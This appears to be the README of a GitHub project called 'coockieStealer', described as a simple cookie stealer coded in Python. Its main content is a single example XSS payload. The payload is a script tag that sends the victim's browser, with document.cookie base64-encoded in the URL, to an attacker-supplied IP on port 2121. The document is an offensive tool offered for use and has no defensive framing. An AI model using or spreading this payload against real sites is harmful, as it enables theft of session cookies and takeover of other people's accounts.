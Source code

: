 # coockieStealer
A simple cookie stealer coded in python
Example payload:
<script>document.location='http://<your ip>:2121/'+encodeURIComponent(btoa(document.cookie));</script>
